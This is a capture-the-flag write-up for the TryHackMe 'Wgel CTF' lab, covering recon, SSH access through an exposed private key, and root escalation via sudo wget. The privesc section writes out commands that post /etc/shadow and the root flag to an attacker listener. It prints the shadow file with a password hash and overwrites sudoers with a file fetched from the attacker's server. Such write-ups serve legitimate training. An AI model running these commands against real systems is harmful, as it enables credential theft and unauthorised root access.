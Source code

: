 # Wgel CTF

|Room|   [Wgel CTF](https://tryhackme.com/room/wgelctf)|  
|---|---|
|Difficulty|easy| 
|Type|pwn|
|Author|[MrSeth6797](https://tryhackme.com/p/MrSeth6797)|

This room is pretty neat. The initial part got me looking for exploits that did not exist, and getting to the last flag was fun. I liked how a misconfiguration allows getting the root flag in multiple ways. One without even requiring a root shell.

## Nmap
```shell
sudo nmap -sS -sV -sC -p- -vv -oA scan 10.10.77.137
```
Output
```shell
# Nmap 7.91 scan initiated Mon Jul 26 23:28:56 2021 as: nmap -sS -sV -sC -p- -vv -oA scan 10.10.77.137
Nmap scan report for 10.10.77.137
Host is up, received echo-reply ttl 63 (0.16s latency).
Scanned at 2021-07-26 23:28:56 EDT for 468s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 26 23:36:44 2021 -- 1 IP address (1 host up) scanned in 468.71 seconds
```

## Gobuster
>Note: You should use /dirb/common.txt wordlist for your second scan

1)
```shell
sudo gobuster dir -u http://10.10.77.137/ -w /usr/share/wordlists/dirb/common.txt -o diretorios.txt -k
```
Output
```shell
/sitemap (Status: 301) [Size: 314] [--> http://10.10.77.137/sitemap/]
```
2)
```shell
sudo gobuster dir -u http://10.10.77.137/sitemap/ -w /usr/share/wordlists/dirb/common.txt -o diretorios2.txt -k
```
Output
```shell
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.77.137/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.10.77.137/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.77.137/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.77.137/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.77.137/sitemap/js/]
```                            


## Initial Access
As I waited for gobuster's second scan to finish, I explored the site in sitemap and did a quick search from which I found Unapp is a theme from colorlib. From this finding, I began looking for exploits and CVEs, but sadly found nothing useful. After trying the contact us button hoping to find a username but ended up with nothing, I decided to analyze the source code. I ended up giving fast on this since the code looked fresh out of the box from the template. At this point, I decided to go back and check the default Apache site, and that's when I found the following.

 <!-- Jessie don't forget to udate the webiste --> (Photo here)

Ha! So we now have our user. 

Gobuster ended up finding an interesting directory called .ssh, so yeah...you can guess what is in that directory. 
(Picture)

So now we should use this key to connect. 
>If you get an error when sshing, run this command to change the file permissions
>``` shell
sudo chmod 400 id_rsa 
 
 >**User flag**
 >location: /home/jessie/Documents
 
## privesc
If we go and see what can we run as root

```shell
sudo -l
```
we see the following
```shell
(root) NOPASSWD: /usr/bin/wget
``` 
being able to run wget as sudo opens up some pretty interesting options since we can send files from this machine to ours or upload files to the machine which will keep the permissions. 

To test this I decided to download the /etc/shadow file. Even though we don't have access to the file, we can exploit the sudo capabilities to achieve it. 

Attacker
```shell
sudo nc -lnvp 1234  
``` 
Target
```shell
sudo wget --post-file=/etc/shadow 10.9.148.82:1234
``` 
and *Voilà*
```shell
root:!:18195:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:17954:0:99999:7:::
uuidd:*:17954:0:99999:7:::
lightdm:*:17954:0:99999:7:::
whoopsie:*:17954:0:99999:7:::
avahi-autoipd:*:17954:0:99999:7:::
avahi:*:17954:0:99999:7:::
dnsmasq:*:17954:0:99999:7:::
colord:*:17954:0:99999:7:::
speech-dispatcher:!:17954:0:99999:7:::
hplip:*:17954:0:99999:7:::
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
``` 

This is where things get funny. Just as we downloaded this file, we can just download the root flag! We just need to use the same syntax that the user flag file had, and we end up with the following command

```shell
sudo wget --post-file=/root/root_flag.txt 10.9.148.82:1234
```

## Root shell
Even though we already have the flag, we clearly haven't pwned the system, so let's do it. For achieving this, we'll do things the other way now, we will upload a file. 

In the /etc folder, there is a file called sudoers. This file specifies which users have sudo access. What if we create our own, and upload it with the wget permissions? 

We can just create a file called sudoers with the next content
```shell
jessie  ALL=(ALL) NOPASSWD: ALL
```
then, let's start an HTTP server on our machine.
```shell
sudo python3 -m http.server 81 
```
following this, we should upload it to the target's etc directory. Since there is already a file called like this, it's important to use the output parameter, so the content is written to the original file.
```shell
sudo wget http://10.9.148.82:81/sudoers --output-document=sudoers
```
Then just run a 
```shell
sudo su
```

And our job here is done. 

>**Root flag**
>location: /root
